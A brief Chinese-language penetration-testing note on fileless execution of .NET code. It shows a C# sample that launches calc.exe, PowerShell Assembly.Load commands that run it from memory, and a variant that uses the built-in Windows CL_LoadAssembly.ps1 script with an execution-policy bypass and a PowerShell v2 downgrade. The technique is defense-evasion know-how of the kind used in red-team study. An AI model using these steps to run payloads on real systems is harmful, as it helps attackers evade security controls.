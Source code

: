这里使用以下代码进行介绍

```C#
namespace nsfocus
{
    public class test
    {
        public static void exec()
        {
            System.Diagnostics.Process proc = new System.Diagnostics.Process();
            proc.StartInfo.FileName = "c:\\windows\\system32\\calc.exe";
            proc.Start();
        }
        static void Main(string[] args)
        {
            exec();
        }
    }
}
```

这样利用Assembly.Load在powershell中直接将文件读取到内存当中，并执行代码当中的shellcode

```powershell
PS C:\> $bytes = [System.IO.File]::ReadAllBytes(".\nsfocus.exe")
PS C:\> [Reflection.Assembly]::Load($bytes)
PS C:\> [nsfocus.test]::exec()
```

另外在windows自带的诊断工具中有一个CL_LoadAssembly.ps1文件其中也用到了该方法，同样可以用上述方法来执行C#的程序，步骤如下

```powershell
PS C:\> # powershell -v 2 -ep bypass
PS C:\> cd C:\windows\diagnostics\system\AERO
PS C:\windows\diagnostics\system\AERO> import-module .\CL_LoadAssembly.ps1
PS C:\windows\diagnostics\system\AERO> LoadAssemblyFromPath ..\..\..\..\nsfocus.exe
PS C:\windows\diagnostics\system\AERO> [nsfocus.test]::exec()
```

需要注意利用CL_LoadAssembly.ps1时，它只能执行通过.NET 2.0编译完成的程序，并且执行过程中它会调用同目录下的CL_Utility.ps1脚本，因此脚本执行必须在当前目录(C:\windows\diagnostics\system\AERO)下，另外加载的可执行程序路径也只能该路径的相对路径。

Links:

- https://pentestlab.blog/tag/assembly-load/
- https://holdmybeersecurity.com/2016/09/11/c-to-windows-meterpreter-in-10mins/

### 参考

- 乌云drops 三好学生《渗透技巧——通过cmd上传文件的N种方法 - WooYun知识库》
- https://arno0x0x.wordpress.com/2017/11/20/windows-oneliners-to-download-remote-payload-and-execute-arbitrary-code/amp/